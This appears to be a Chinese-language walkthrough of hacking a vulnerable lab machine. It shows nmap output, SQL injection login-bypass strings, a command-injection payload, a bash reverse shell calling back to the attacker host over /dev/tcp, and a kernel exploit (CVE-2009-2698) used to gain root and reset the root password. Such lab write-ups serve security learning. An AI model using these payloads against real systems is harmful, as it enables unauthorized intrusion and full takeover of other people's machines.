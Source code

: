 # 1. 信息收集

> nmap

~~~shell
# ip探测

# Nmap 7.92 scan initiated Thu May  5 00:55:05 2022 as: nmap -sn -oN pingscan.txt 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.0023s latency).
MAC Address: FC:61:E9:D9:E7:AC (Fiberhome Telecommunication Technologies)
Nmap scan report for 192.168.1.3
Host is up (0.00055s latency).
MAC Address: A4:5E:60:C2:D9:0B (Apple)
Nmap scan report for 192.168.1.101
Host is up (0.00087s latency).
MAC Address: 00:0C:29:C5:81:9A (VMware)
Nmap scan report for 192.168.1.7
Host is up.
# Nmap done at Thu May  5 00:55:07 2022 -- 256 IP addresses (4 hosts up) scanned in 2.03 seconds
发现主机：192.168.1.101

# 操作系统、端口、常用漏洞探测
# Nmap 7.92 scan initiated Thu May  5 00:56:12 2022 as: nmap -n -v -sV -A -sC -T5 -p- -Pn -o scan101.txt 192.168.1.101
Nmap scan report for 192.168.1.101
Host is up (0.00099s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            707/udp   status
|_  100024  1            710/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: 2022-05-05T01:43:12+00:00; -3h13m33s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
710/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:C5:81:9A (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.019 days (since Thu May  5 00:29:15 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=202 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: -3h13m33s

TRACEROUTE
HOP RTT     ADDRESS
1   0.99 ms 192.168.1.101

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 00:56:45 2022 -- 1 IP address (1 host up) scanned in 33.63 seconds
~~~

> web服务

访问首页访问源代码，发现一个登录页面：

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/1.png" alt="image-20220505130635868" style="zoom:80%;" />


~~~html
<html>
<body>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>

<!-- Start of HTML when logged in as Administator -->
</body>
</html>
~~~

`通过分析源代码，发现用户名大概率是administrator,但是没有密码信息，尝试万能密码：`

> `payload: `
>
> `uname:administrator' or '1'='1`
>
> `psw:' or '1'='1`

![image-20220505131104208](/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/2.png)

`payload:127.0.0.1;pwd;whoami;`

![image-20220505131343123](/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/3.png)

寻找写权限的目录：

![image-20220505131600735](/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/4.png)

> 弹shell

`payload:`

`192.168.1.7;bash -c 'exec bash -i &>/dev/tcp/192.168.1.7/8888 <&1';`

![image-20220505132210669](/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/5.png)



> 提权

我试了1397.c,但是提权不成功
~~~bash
bash-3.00$ gcc -o 0x82-CVE-2009-2698 9542.c && ./0x82-CVE-2009-2698
9542.c:109:28: warning: no newline at end of file
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
bash-3.00# passwd root
New UNIX password: 123456
BAD PASSWORD: it is too simplistic/systematic
Retype new UNIX password: 123456
Changing password for user root.
passwd: all authentication tokens updated successfully.
~~~

![image-20220505134405157](/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/Untitled.assets/6.png)
